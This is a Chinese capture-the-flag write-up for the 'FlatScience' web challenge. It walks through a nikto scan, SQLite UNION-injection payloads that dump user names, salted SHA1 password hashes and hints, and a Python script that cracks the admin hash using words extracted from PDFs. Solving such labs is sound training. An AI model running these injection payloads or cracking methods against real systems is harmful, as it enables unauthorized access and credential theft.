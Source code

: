 # FlatScience
## 题目描述
暂无
## 思路
http://220.249.52.133:54452  
点开题目链接，查看源码，点击链接，发现没什么可以利用的点，因此，用 nikto 扫一下网站，看看有没有隐藏文件：  
```shell
nikto -host http://220.249.52.133:54452/
```
发现两个隐藏文件：  
![avatar](./picture/FlatScience_1.png)  
分别访问，admin.php 文件没什么有用的东西，源码还提示不要尝试绕过，爆破也没爆出来。同时，查看 login.php 文件，查看源码，发现这样一句话：  
![avatar](./picture/FlatScience_2.png)  
因此，构造尝试一下这个参数：  
http://220.249.52.133:54452/login.php?debug  
![avatar](./picture/FlatScience_3.png)  
打印出了源码，看样子是需要 sql 注入，并且应当与 SQLite 有关，因此，去查一下 SQLite 的相关资料。好吧，查着查着查到了 wp 上……构造注入：  
usr='union select name,sql from sqlite_master--+&pw=  
**为什么要查询 sql 呢，这涉及到 sqlite 自带的结构表 sqlite_master，sql 是 sqlite_master 中的一个字段，注入时经常用到的。  **
![avatar](./picture/FlatScience_4.png)  
可以看到，在 set-cookie 的 name 这个地方会出现一些信息，整理一下，是一段 sql 代码：  
```sql
CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```
这就出现了表名，列名，因此继续构造注入代码以获取更多信息，这里，我们用 limit 进行移位查询：  
```sql
usr='union select id, id from Users limit 0,1--+&pw=  
usr='union select id, name from Users limit 0,1--+&pw=
usr='union select id, password from Users limit 0,1--+&pw=
usr='union select id, hint from Users limit 0,1--+&pw=
```
同样是在 set-cookie 的 name 这个地方获取信息，最后整理得到以下内容：  
```sql
admin  3fab54a50e770d830c0416df817567662a9dc85c +my+fav+word+in+my+fav+paper?!
fritze 54eae8935c90f467427f05e4ece82cf569f89507 +my+love+isâ¦?
hansi  34b0bb7c304949f9ff2fc101eef0f048be10d3bd +the+password+is+password
```
我们只需要 admin 的密码就可以了，因此尝试获取密码。根据上面的 php 代码可知，表中的密码是经过处理后得到的，处理过程如下：首先是用户设置的密码与 Salz! 进行拼接，然后进行 sha1 处理。而根据 hint 的提示，这个密码是这个教授在他最喜欢的论文中，最喜欢的单词。这……要通读论文找单词吗……又去看了一下 wp，大佬不愧是大佬，写了个 py 脚本：  
```python
from cStringIO import StringIO
from pdfminer.pdfinterp import PDFResourceManager, PDFPageInterpreter
from pdfminer.converter import TextConverter
from pdfminer.layout import LAParams
from pdfminer.pdfpage import PDFPage
import sys
import string
import os
import hashlib
 
def get_pdf():
    //获取pdf文件
	return [i for i in os.listdir("./") if i.endswith("pdf")]

//把pdf文件转为text格式
def convert_pdf_2_text(path):
    rsrcmgr = PDFResourceManager()
    retstr = StringIO()
    device = TextConverter(rsrcmgr, retstr, codec='utf-8', laparams=LAParams())
    interpreter = PDFPageInterpreter(rsrcmgr, device)
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text

def find_password():
	pdf_path = get_pdf()
	for i in pdf_path:
		print "Searching word in " + i
		pdf_text = convert_pdf_2_text(i).split(" ")
		for word in pdf_text:
			sha1_password = hashlib.sha1(word+"Salz!").hexdigest()
			if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
				print "Find the password :" + word
				exit()

if __name__ == "__main__":
	find_password()
```
最终找到了 admin 的密码：  
ThinJerboa  
从 admin.php 的页面输入，得到 flag：  
![avatar](./picture/FlatScience_5.png)  
